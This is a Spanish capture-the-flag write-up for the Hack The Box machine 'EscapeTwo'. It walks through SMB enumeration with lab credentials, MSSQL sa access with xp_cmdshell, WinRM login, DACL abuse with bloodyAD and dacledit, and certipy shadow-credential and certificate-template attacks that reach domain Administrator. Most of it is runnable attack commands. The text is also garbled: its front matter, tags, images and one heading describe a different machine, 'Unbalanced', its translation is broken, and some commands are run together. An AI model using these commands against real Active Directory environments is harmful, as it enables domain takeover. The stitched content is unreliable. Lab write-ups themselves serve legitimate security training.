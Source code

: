 ```yaml
---
layout: single
title: EscapeTwo  - Hack The Box
excerpt: "To solve Unbalanced, we'll find configuration backups files in EncFS and after cracking the password and figuring out how EncFS works, we get the Squid proxy cache manager password that let us discover internal hosts. Proxying through Squid, we then land on a login page that uses Xpath to query an XML backend database. We perform Xpath injection to retrieve the password of each user, then port forward through the SSH shell to reach a Pi-Hole instance, vulnerable to a command injection vulnerability."
date: 2025-01-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-unbalanced/unbalanced_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - rsync
  - encfs
  - squid
  - xpath
  - CVE-2020-11108
  - command injection
---
```


![](/assets/images/htb-writeup-unbalanced/unbalanced_logo.png)
## rose / KxEPkKe6R8su

## Portscan
nmap -Pn -sS -sC -sV -p- -T5 --max-rate 10000 -oN escape-two.txt 10.10.11.51

53/tcp    - domain       - Simple DNS Plus
  88/tcp    - kerberos-sec - Microsoft Windows Kerberos  
135/tcp   - msrpc        - Microsoft Windows RPC  
139/tcp   - netbios-ssn  - Microsoft Windows NetBIOS  
389/tcp   - ldap         - Microsoft Windows Active Directory LDAP  
445/tcp   - microsoft-ds - Posiblemente SMB  
464/tcp   - kpasswd5     - Posiblemente Kerberos  
593/tcp   - ncacn_http   - Microsoft Windows RPC over HTTP  
636/tcp   - ssl/ldap     - LDAP sobre SSL  
1433/tcp  - ms-sql-s     - Microsoft SQL Server  
3268/tcp  - ldap         - Microsoft Windows Active Directory LDAP  
3269/tcp  - ssl/ldap     - LDAP sobre SSL  
5985/tcp  - http         - Microsoft HTTPAPI (SSDP/UPnP)  
9389/tcp  - mc-nmf       - .NET Message Framing  
47001/tcp - http         - Microsoft HTTPAPI (SSDP/UPnP)  
49664-49808/tcp - msrpc - Microsoft Windows RPC (puertos dinámicos)





## Rsync & EncFS

 Bandera de usuario

Intente una enumeración básica de smb


```
poetry run python netexec.py smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares                                                     main 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ        
```

Mirando los catálogos, encontramos el Departamento de Contabilidad que nos interesa. Tenemos que descargarlo usando el comando y luego desempacarlo.

```
smbclient //escape.two.htb/Accounting\ Department -U Rose%KxEPkKe6R8su                                                                              130 ↵  

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 13:52:21 2024
  ..                                  D        0  Sun Jun  9 13:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 13:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 13:52:07 2024

                6367231 blocks of size 4096. 910811 blocks available

mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (25.7 KiloBytes/sec) (average 25.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (19.8 KiloBytes/sec) (average 23.0 KiloBytes/sec)
``` 

ya depues de descargar lso 2 archivos viendo la extencion en gogle veo muachas aplicaiones para manipular el archivo

![](/assets/images/htb-writeup-unbalanced/xml.png)

La cuenta sa es la cuenta de administración predeterminada para conectar y administrar la base de datos MSSQL. Comprobar mostró que la cuenta es válida, intente utilizar mssqlclient de impacket para iniciar sesión.

![](/assets/images/htb-writeup-unbalanced/sql.png)

Genial, ahora somos sas. Por defecto, el procedimiento almacenado xp.cmdshell está desactivado en MSSQL, pero podemos habilitarlo y disfrutar de todos sus beneficios.

Asegúrese de buscar al anfitrión en busca de algo útil. Por ejemplo, tiene archivos notables para la implementación de MSSQL.

![](/assets/images/htb-writeup-unbalanced/sql1.png)

evil-winrm -i sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'

![](/assets/images/htb-writeup-unbalanced/evil.png)

 Bandera de raíz Enlace a la partida

A continuación, considere la explotación de las listas de control de acceso discreto (DACL) utilizando el permiso de WriteOwner. El abuso del permiso de WriteOwner puede llevar a un cambio del propietario del objeto a un usuario controlado por un atacante (en este caso, ryan) y capturar el objeto.

El informe Bloodhound contribuyó a encontrar el vector.

python3 bloodyAD.py --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'set owner ca_svc ryan

![](/assets/images/htb-writeup-unbalanced/bloo.png)


A continuación, establezca permisos FullControl para Ryan. Ahora podremos controlar el objeto de este usuario, incluida la capacidad de modificarlo y borrarlo.


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'    

```
El siguiente comando certipy-ad de abusar automáticamente de la cuenta de sombra cásvc. Nos conectamos al controlador de dominio por dirección IP (-dc-ip) y utilizamos las credenciales especificadas para la autenticación.

```
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 'DC01.sequel.htb' -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc
```

![](/assets/images/htb-writeup-unbalanced/cert.png)
```
KRB5CCNAME=ca_svc.ccachecertipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout

KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}
```


![](/assets/images/htb-writeup-unbalanced/cert2.png)

Este comando crea una solicitud de certificado para la cuenta de casvc utilizando los hashess y la plantilla especificados:

certipy-ad req -u ca_svc -hashes :hashes -ca sequel-DC01-CA -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip}

![](/assets/images/htb-writeup-unbalanced/cert3.png)

Ahora se trata de autenticar al usuario usando el archivo PFX que se obtuvo el paso antes:


```
certipy-ad auth -pfx {some.pfx} -dc-ip {ip}
```
![](/assets/images/htb-writeup-unbalanced/certifica.png)


Todo lo que queda es usar mal viento y un nuevo hash administrador. La bandera de raíz nos estará esperando en el escritorio.
![](/assets/images/htb-writeup-unbalanced/evil2.jpg)
